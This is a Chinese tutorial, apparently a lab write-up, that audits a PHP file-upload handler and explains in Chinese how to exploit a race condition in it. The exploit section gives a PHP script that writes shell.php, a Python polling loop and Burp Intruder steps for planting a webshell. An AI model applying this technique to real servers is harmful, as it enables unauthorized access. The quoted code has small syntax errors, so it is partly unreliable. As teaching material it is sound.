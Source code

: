 
# 审计源码
```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array(jpg','png','gif);
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

	首先使用使用array()函数创建一个包含`jpg,png,gif`的数组存到变量`$ext_arr`中，然后将文件的原名称和临时文件名分别存入变量`$file_name`和`$temp_file`中，紧接着使用`strrpos()`函数和函数`substr()`获取文件后缀存入变量`$file_ext`中，然后使用if语句和`move_uploaded_file()`函数将文件上传，若无法上传则返回`上传出错！`，然后用if语句和`in_array()`函数在数组![](https://g.yuque.com/gr/latex?ext_arr%E4%B8%AD%E6%9F%A5%E6%89%BE%E5%8F%98%E9%87%8F%60#card=math&code=ext_arr%E4%B8%AD%E6%9F%A5%E6%89%BE%E5%8F%98%E9%87%8F%60&id=D9J5q)file_ext`中的值，若不存在则返回`只允许上传.jpg|.png|.gif类型文件！`并用 unlink()函数删除文件，存在则使用`rename()`函数更改文件名成功上传。


## 函数说明
```
array() 函数用于创建数组。
在 PHP 中，有三种类型的数组：
数值数组 - 带有数字 ID 键的数组
关联数组 - 带有指定的键的数组，每个键关联一个值
多维数组 - 包含一个或多个数组的数组

语法
数值数组的语法：
array(value1,value2,value3,etc.);
关联数组的语法：
array(key=>value,key=>value,key=>value,etc.);
key	规定键名（数值或字符串）。
value	规定键值。
```

```
strrpos() 函数查找字符串在另一字符串中最后一次出现的位置（区分大小写）。

语法
strrpos(string,find,start)
string	必需。规定被搜索的字符串。
find	必需。规定要查找的字符。
start	可选。规定开始搜索的位置。
```

```
substr() 函数返回字符串的一部分。

语法
substr(string,start,length)
string	必需。规定要返回其中一部分的字符串。
start	必需。规定在字符串的何处开始。正数 - 在字符串的指定位置开始。负数 - 在从字符串结尾的指定位置开始。0 - 在字符串中的第一个字符处开始
length	可选。规定要返回的字符串长度。默认是直到字符串的结尾。正数 - 从 start 参数所在的位置返回。负数 - 从字符串末端返回
```

```
move_uploaded_file() 函数把上传的文件移动到新位置。如果成功该函数返回 TRUE，如果失败则返回 FALSE。

语法
move_uploaded_file(file,newloc)
file	必需。规定要移动的文件。
newloc	必需。规定文件的新位置。
```

```
in_array() 函数搜索数组中是否存在指定的值。

语法
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
needle	必需。规定要在数组搜索的值。
haystack	必需。规定要搜索的数组。
strict	可选。如果该参数设置为 TRUE，则 in_array() 函数检查搜索的数据与数组的值的类型是否相同。
```

```
rename() 函数重命名文件或目录。如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

语法
rename(oldname,newname,context)
oldname	必需。规定要重命名的文件或目录。
newname	必需。规定文件或目录的新名称。
context	可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。
```

```
unlink() 函数删除文件。如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

语法
unlink(filename,context)
filename	必需。规定要删除的文件。
context	可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。
```


## 漏洞利用

## 思路
	通过代码我们可以直接想到上传图片马利用文件包含得到shell，这样当然可行。不过这不是这一关的考核点，在审计源码的过程中我们不难发现，代码流程是先将文件上传，然后再对其文件类型进行判断。那么我们就可以利用在对文件类型进行判断之前的这个间隙来实现目的，这就是条件竞争漏洞。

**何为条件竞争漏洞**<br />	条件竞争漏洞是一种服务器端的漏洞，是由于开发者设计应用程序并发处理时操作逻辑不合理而造成。当应用面临高并发的请求时未能同步好所有请求，导致请求与请求之间产生等待时出现逻辑缺陷。该漏洞一般出现在与数据库系统频繁交互的位置，例如金额同步、支付等较敏感操作处。另外条件竞争漏洞也会出现在其他位置，例如文件的操作处理等。

	假设攻击者上传了一个用来生成恶意shell的文件，在上传完成和安全检查完成并删除它的间隙，攻击者通过不断地发起访问请求的方法访问了该文件，该文件就会被执行，并且在服务器上生成一个恶意shell的文件。至此，该文件的任务就已全部完成，至于后面发现它是一个不安全的文件并把它删除的问题都已经不重要了，因为攻击者已经成功的在服务器中植入了一个shell文件，后续的一切就都不是问题了。


## 利用
编写一段能够生成木马文件的脚本，将其保存为`webshell.php`
```php
<?php    fputs(fopen('shell.php','w'),'此处写入木马代码');?>
```

利用python的requests模块构造条件竞争
```python
import requestswhile
True:
    html = requests.get("http://www.web.com/upload/upload/webshell.php")
    if html.status_code == 200: 
        print("Succsee")
    else:
        print("NO")
```

将webshell.php上传并使用burpsuite抓包，发送到intruder模块中，设置为循环发送（注意有效负载位置清除）<br />![image-20210604170711131.png](./assets/1656467100680-ab3ec9d9-0013-4b8d-8349-53ed015726fe.png)

![image-20210604164509771.png](./assets/1656467105539-585c5597-b978-4b18-8782-c079d5d4ca43.png)

先启动python脚本，然后在burpsuite中发送数据包<br />![image-20210604170812116.png](./assets/1656467109506-a5d3799a-d0eb-441d-829d-5cefc09e64b2.png)

![image-20210604170838535.png](./assets/1656467113700-888cef58-29f8-4b5c-9e14-6a923a34ce87.png)

为了保险起见当多次出现Success时停止<br />![image-20210604171319635.png](./assets/1656467118405-ce28f399-fbe5-4fba-86ec-e184bf9d858c.png)

不知道文件位置可以随意上传一张图片，上传成功后将图片文件复制到一个新的浏览器窗口，将图片名称改为shell.php即是木马文件的路径<br />![image-20210604171659058.png](./assets/1656467122836-d6b53c85-ea37-4a41-847c-662c8b7c0a06.png)

得到木马文件路径
```
http://www.web.com/upload/upload/shell.php
```

使用蚁剑连接shell.php<br />![image-20210604171813647.png](./assets/1656467129039-9481704a-9016-4150-9138-ee12c6a18dee.png)

成功得到shell<br />![image-20210604171843761.png](./assets/1656467133854-a5ab4827-8795-426f-b221-a73bfad364ae.png)

![image-20210604171908283.png](./assets/1656467136476-53a576c6-dcfc-4187-a1a0-5595fc283d23.png)

